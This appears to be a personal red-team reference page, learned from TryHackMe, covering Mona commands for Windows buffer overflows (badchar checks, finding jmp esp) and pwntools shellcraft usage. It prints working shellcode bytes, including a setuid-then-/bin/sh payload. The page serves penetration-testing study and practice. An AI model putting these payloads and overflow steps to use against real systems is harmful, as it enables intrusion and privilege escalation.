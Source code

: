 ```yaml
---
title: "Red Team Field Manual (RTFM) - Essential Commands and Techniques"
description: "Comprehensive red team field manual with essential penetration testing commands, techniques, and methodologies learned from TryHackMe and practical engagements."
keywords: ["red team", "penetration testing", "rtfm", "field manual", "hacking commands", "pentest methodology", "cyber security", "ethical hacking"]
tags: ["red-team", "pentest", "commands", "methodology", "reference"]
sidebar_position: 2
---
```


:::info

My version of the "Red Team Field Manual (RTFM)" for attacking boxes, learned from [TryHackMe](https://tryhackme.com/dashboard) and other sources.

:::

## Mona modules

python scripts to use in Immunity Debugger for windows buffer overflows

```bash
# set mona work dir
!mona config -set workingfolder C:\Users\IEUser\Downloads\%p

# create a bytearray to compare for badchar checking (add your badchar list)
!mona bytearray -b "\x00"

# compare memory in crashed app to the bytearray
!mona compare -f C:\Users\IEUser\Downloads\chatserver\bytearray.bin -a 0022F930

# find a jump esp return address (add your badchar list)
!mona jmp -r esp -cpb "\x00"
```

## pwntools

A tool to create various shellcode payloads.

[Installation](https://docs.pwntools.com/en/stable/install.html)

```bash
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

Binary is installed to `~/.local/bin` so add to your `$PATH` e.g. `export PATH=$PATH:~/.local/bin` or edit `~/.bashrc`

Useful commands

```bash
# see available shellcodes
pwn shellcraft -l

# generate shellcode: -f[ormat] d[isasm] <payload />
# format: choose from
# 'r', 'raw', 's', 'str', 'string', 'c', 'h', 'hex', 'a', 'asm', 'assembly',
# 'p', 'i', 'hexii', 'e', 'elf', 'd', 'escaped', 'default'
pwn shellcraft -f d i386.linux.sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80

# append shellcodes e.g. if you need a setuid bit run before a .sh
pwn shellcraft -f d amd64.linux.setuid 1000
\x31\xff\x66\xbf\xe8\x03\x6a\x69\x58\x0f\x05

pwn shellcraft -f d amd64.linux.sh
\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05

## add them together:
\x31\xff\x66\xbf\xe8\x03\x6a\x69\x58\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

Resource: [hacktricks pwn shellcraft](https://book.hacktricks.xyz/exploiting/tools/pwntools#pwn-shellcraft)
